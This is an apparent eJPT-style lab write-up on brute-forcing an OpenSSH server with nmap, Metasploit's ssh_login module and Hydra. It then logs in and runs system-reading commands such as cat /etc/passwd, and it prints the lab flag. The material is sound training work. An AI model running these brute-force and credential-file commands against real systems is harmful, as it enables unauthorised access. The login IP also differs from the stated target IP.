 # 🔬SSH

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
> * Target IP: `192.142.193.3`
> * **Brute-force** of [OpenSSH](https://www.openssh.com/) server
> * **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ssh-enum)

### Enumeration <a href="#enumeration" id="enumeration"></a>

```bash
ip -br a
nmap -sn 192.142.193.0/24
```

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sV 192.142.193.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-19 08:32 UTC
Nmap scan report for target-1 (192.142.193.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:8E:C1:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> OpenSSH 7.9p1 cannot be exploited directly

```bash
msfconsole -q

msf5 > use auxiliary/scanner/ssh/ssh_version 
msf5 auxiliary(scanner/ssh/ssh_version) > show options
msf5 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_version) > run

[+] 192.142.193.3:22      - SSH server version: SSH-2.0-OpenSSH_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:19.04 service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.142.193.3:22      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Force - Metasploit <a href="#brute-force" id="brute-force"></a>

* Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
msf5 auxiliary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > show options
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.142.193.3
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf5 auxiliary(scanner/ssh/ssh_login) > exploit 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Brute-Froce - Hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt -t4 192.142.193.3 ssh
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `eb09cc6f1cd72756da145892892fbf5a`
{% endhint %}

